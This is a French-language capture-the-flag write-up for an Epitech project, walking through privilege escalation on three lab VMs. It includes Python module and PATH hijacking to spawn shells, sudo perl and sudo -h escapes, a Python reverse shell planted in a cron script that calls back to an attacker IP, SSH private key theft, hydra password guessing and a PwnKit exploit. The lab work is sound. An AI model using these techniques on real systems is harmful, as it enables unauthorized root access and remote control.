

Ceci est la documentation pour le projet Epitech SOCAT. Il s'agit d'un CTF (capture the flag).

## Sujet Traité :

Étude des vulnérabilités de machines virtuelles.

## Liste non exhaustive des domaines que nous couvrirons :
Reverse Engineering, cryptographie, encodage, gestion des erreurs, protocoles, synchronisation, pièges de langage, escalade de privilèges, etc.


# Room 1 - Toss a coin 


## user.txt ?

- La VM héberge un site web, on utilise donc Dirbuster pour retrouver l'arborescences des fichiers contenu par le serveur web.


- Sur "/t/o/s/s/_/a/_/c/o/i/n/_/t/o/_/y/o/u/r/_/w/i/t/c/h/e/r/_/o/h/_/v/a/l/l/e/y/_/o/f/_/p/l/e/n/t/y/" on trouve dans le html de la page, un user et son mot de passe.


- On se connect en ssh, et c'est bon. On n'a le premier flag dans le fichier user.txt.


## root.txt ?

### Jaskier


- Nous avons ce qui semble être le mot de passe de Jaskier, on peut se connecter en SSH à la machine en tant qu'utilisateur Jaskier.
    ```bash
    ssh jaskier@10.10.250.243
    ```
  

- Commençons par regarder ce qu'il y a dans le dossier personnel de Jaskier.
    ```bash
    ls -lha
    ```
      

- Il y a un script python. Il importe le module random et l'utilise pour sélectionner dix lignes aléatoires de la chanson.
- On vérifie ce que l'utilisateur Jaskier peut exécuter en tant que sudo afin de nous indiquer à qui nous allons élever nos privilèges en premier.
    ```bash
    sudo -l
    ```
  

- Nous pouvons exécuter ce script python dans notre dossier en tant qu'utilisateur yen.
- Un module est juste un fichier python avec des fonctions qui peuvent être référencées. Ainsi, lorsque la ligne d'importation random est exécutée, le script recherche ce fichier random.py. Nous pouvons savoir où il recherche ce fichier random.py.

    ```bash
  python3.6 -c 'import sys; print(sys.path)'
    ```
  
- Nous pouvons voir qu'il recherche le fichier random.py dans le dossier /home/jaskier (['']).
- Donc, si on crée un fichier random.py dans ce répertoire, le script python ferait référence à ce fichier car c'est le premier endroit où il vérifie.

   ```bash
    nano random.py
    ```
   ```python
    import os
    os.system("/bin/bash")
  ```
    
- On accorde des droits d'éxécution
    ```bash
    chmod 755 random.py
    ```
  
- Et maintenant, nous exécutons le script python en tant que sudo.
    ```bash
    sudo -u yen /usr/bin/python3.6 /home/jaskier/toss-a-coin.py
    ```
  
- Et nous obtenons un shell en tant qu'utilisateur yen.


### yen

- Commençons par regarder ce qu'il y a dans le dossier personnel de yen.
    ```bash
    ls -lha
    ```
  
- Nous avons un fichier qui appartient à root, mais lisible par yen. Il semble que nous ayons besoin d'un autre niveau de privesc.
- Une fois exécuté nous obtenons un segfault, après avoir vérifié avec Valgrind on se rend compte que c'est un faux segfault. Donc probablement pas un d'erreur mémoire exploitable. 
    
  

- Mettons le fichier dans machine hôte et regardons-le.
    ```bash
    python3 -m http.server 8000
    ```
  
- Sur notre machine hôte
  ```bash
  wget http://10.10.250.243:8000/portal
  ```


- Ouvrons ce binaire dans radare2 en mode débugg.

    ```bash
    r2 -d portal
    ```
  
    ```bash
    aa
    ```
- Maintenant, imprimons la liste des fonctions du binaire.
  
    ```bash
    pdf @main
    ```
  
  
- En parcourant le code en assembleur, nous pouvons voir que setuid et setgid sont définis sur 1003.
- Sur la machine attaquée, regardons /etc/passwd et voyons qui a un identifiant de 1003.

    ```bash
    cat /etc/passwd | grep 1003
    ```
    
  
- Nous avons un utilisateur avec un identifiant de 1003.
- En regardant encore le code en assembleur, nous observons que l'exécutable utilise le binaire système date

    

- La commande echo a un chemin absolu alors que la commande date n'en a pas. Il s'agit d'une référence non sécurisée à un fichier et qui peut être exploitée.
- Si un programme est référencé sans chemin absolu, il doit vérifier la variable d'environnement PATH afin de trouver l'emplacement du binaire. Cependant, nous pouvons changer cette variable.
- Ajoutons le dossier actuel à la variable d'environnement PATH.

    ```bash
    export PATH=/home/yen:$PATH
    ```
  
- On crée notre propre fichier date et on le rend exécutable

    ```bash
    nano date
    ```
  
    ```bash
    #!/bin/bash
    /bin/bash 
    ```

- On accorde des droits d'exécution
  ```bash
  chmod 755 date
  ```

- Maintenant, lorsque date est exécuté, il génère un shell. Étant donné que l'uid et le gid sont définis sur ceux de l'utilisateur geralt, lorsque le programme de date est exécuté dans le binaire portal, il générera un shell en tant qu'utilisateur geralt.

    

### geralt

- Une fois sur geralt nous pouvons consulter ce qu'il peut exécuter en tant que sudo.
    ```bash
    sudo -l
    ```
  

- On observe que l'utilisateur peut exécuter un programme ou un script en langage Perl en tant qu'utilisateur root. Par conséquent, on exécute ce Perl one-liner pour récupérer le shell en root.

    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```
    

- Nous somme maintenant en root, et nous pouvons consulter le fichier root.txt.
 
    ```bash
     cat ../../root/root.txt
     ```


# Room 2 - Yer a Wizard


## user.txt ?

# FTP

- On se connecte sur le serveur FTP. Comme beaucoup d'entre eux, nous avons un accès via les credentials login : anonymous - password : anonymous.

  
- Une fois connecté au serveur nous pouvons voir tous les fichiers du dossier actuel avec la commande :

    ```bash
    ls -lha
    ```

- Le fichier '.hidden' est un leurre.
- On se rend dans le dossier '...'
    ```bash
    cd ...
    ```
- Avec la commande ls -lha, on remarque le fichier .reallyHidden

  

- On peut le récupère via la commande :

    ```bash
    mget .reallyHidden
    ```

- Sur la machine hote nous pouvons lire son contenu.

    ```bash
    cat .reallyHidden
    ```

- Nous obtenons le password de Hagrid. Nous pouvons donc nous connecter en ssh.

    ```bash
    ssh hagrid@10.10.201.107
    ```
- Une fois sur hagrid nous pouvons voir le contenu du fichier user.txt.

    ```bash
    cat user.txt
    ```
- Celui-ci est un hash. Afin de récupérer le password, nous devons le déchiffrer sur le site [cyberchef](https://cyberchef.org/)

- Cyberchef est un site qui propose une très longue liste de fonctions qui vous permettront de faire en vrac du codage, décodage (XOR, Base64…etc.), du chiffrement, déchiffrement (AES, DES, Blowfish), de la conversion de fichiers ou de formats, du dump en hexadécimal, de la création de binaires, de la compression, décompression de fichiers, du calcul de hash, du parsing de date ou d’IP…etc., etc
- Nous allons donc utiliser la fonction "magic" pour décoder ce hash et obtenir notre flag

  

## root.txt ?

# hagrid

- Une fois connecté en tant que Hagrid en ssh, nous avons un script bash qui affiche seulement un message. Nous allons utiliser les cron jobs pour privesc.
- Cron est un planificateur de tâches dans les systèmes d'exploitation basés sur Unix. Il nous permet de programmer des tâches à exécuter périodiquement.
- Par défaut, les cron jobs s'exécute en tant que root lors de l'exécution de /etc/crontab, de sorte que toutes les commandes ou tous les scripts appelés par le crontab s'exécuteront également en tant que root.
- En consultant le fichier /etc/crontabs nous pouvons voir que ron va exécuter hut.sh lorsqu'on reboot.

  

- On va donc modifier le script hut.sh pour qu'il nous donne le shell de ron. Mais comme ce cron jobs se lance à chaque nous allons avoir besoin d'un reverse shell.

- Pour cela on peut utiliser un [générateur de reverse shell](https://www.revshells.com/) et copier la commande dans le script hut.sh.

    ```bash
    nano hut.sh
    ```

    ```bash
    #!/bin/bash
    export RHOST="10.18.110.14";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
    ``` 

- Sur notre machine hote nous allons "écouter" pour récupérer le shell. L'étape suivante consiste à configurer un écouteur Netcat, qui interceptera le shell inverse lorsqu'il sera exécuté par l'hôte victime, en utilisant les flags suivants :

  -l pour écouter les connexions entrantes

  -v pour une sortie détaillée

  -n pour ignorer la recherche DNS

  -p pour spécifier le port sur lequel écouter

  ```bash
  nc -lvnp 1234
  ```
- Nous allons ensuite reboot sur la machine attaquée. Lors de l'exécution de /sbin/reboot pour redémarrer le système, un rappel sur l'écouteur Netcat est reçu, donnant un shell en tant qu'utilisateur ron
  ```bash
  reboot
  ```

  

### Ron

- Une fois conncté au shell de ron nous avons accès au fichier dumbledore.txt
- Celui-ci est composé de plusieurs hash. Nous allons donc utiliser le site cyberchef pour déchiffrer les hash
  
- Nous allons encore utiliser la fonction "magic" pour décoder le bon hash.
- Ainsi nous obtenons le mdp de dumbledore.


### dumbledore

- On se connecte en ssh avec hagrid
- Ensuite on change d'user avec la commande su

    ```bash
    su dumbledore
    ```
- On peut voir le contenu du fichier note.txt. C'est un indice qui nous indique que nous allons essayer de privesc sur harry

  

- Si on lance la commande ls -lha, on remarque que le dossier harry à seulement des droits d'exécution.

  

- Bien que le dossier de l'utilisateur harry ne permette pas de lister les fichiers, le dossier .ssh est toujours accessible et il contient une clé SSH privée :

  

- On copie le hash de la clef ssh sur notre machine hote. On lui assigne les autorisations appropriées et on l'utilise pour s'authentifier en tant qu'utilisateur harry

     ```bash
      nano key
      # copier manuellement la clé ssh
      chmod 600 key
      ssh -i key harry@10.10.148.205
    ```

- Nous sommes maintenant connecté en tant que harry

  

### harry

- En exécutant le script d'énumération linpeas, il semble qu'il existe une règle Sudo pour l'utilisateur harry dans le fichier /etc/sudoers.d/harry

  

- On remarque qu'harry peut exécuter /bin/bash en tant que root, mais uniquement sur l'hôte "strawgoh"

- Le flag -h peut être utilisé pour spécifier l'hôte lors de l'exécution de commandes avec Sudo

- Même si l'hôte ne peut pas être défini, les commandes sont toujours exécutées en tant que root, accordant ainsi un shell de niveau root

  ```bash
    sudo -h strawgoh /bin/bash
    ```

  


# Room 3 - Muso Troglodytarum

## user.txt ?

- Après avoir lancé la VM de la room 3, on se rend rapidement compte grâce à nmap (ou en allant directement à http://10.10.000.000) que cette VM héberge un "site web".
On utilise dirbuster (ou toute solution équivalente fonctionnera) pour exposer l'arborescence des fichiers existant le dossier exposer par le serveur web.

- Parmi la multitude de path retournés par dirbuster c'est le "http://10.10.000.000:80/assets qui nous intéressent.


- C'est dans le fichier style.css qu'on trouve notre prochaine piste.
Arrivé sur cette page, prenez garder à désactiver le javascript. On remarque un truc intéressant du côté des requêtes :


- Du coup, on prend la valeur de l'attribut hidden_directory, et on le rajoute à notre url.
Aucune "erreur 404" n'est retourné, et on se retrouve sur le hidden_directory.
On clique sur l'image .png, on lit son contenu grâce au dossier source de google dev Tools.
Tout en bas du fichier on trouve des indications sur comment nous connecter en ftp avec la VM.
Il nous donne un username et une floppée de mots de passes.


- On pourrait les tester un à un, mais l'outils idéal pour nous serait hydra. On créer une worklist avec la liste de potentiel mots de passe et hydra se charge du reste.


- On n'est maintenant connecté en ftp, et le fichier qui nous est permis de voir est: Valerian\'s_Creds.txt
les informations sont écrite en white space, après avoir décodé le contenu du fichier. 
On se retrouve avec un user, valerian, et son mot de passe. On se connecte donc en ssh à la VM.


- On utilise linpeas pour détecter d'éventuelle vulnérabilité. Et on n'a pas bien une vulnerabilité à exploité.


- On utilise simplement la commande scp, pour envoyer les fichiers nécessaires à exploiter la vulnerabilité sur notre VM.  

    ```bash
   scp -r CVE-2021-4034 valerian@10.10.196.14:/home/valerian
    ```
- On compile les fichier source a l'intérieur de CVE-2021-4034, et on l'execute l'éxecutable qui en resulte.
Et voila! on est en root.


## root.txt ?

En est déjà en root...

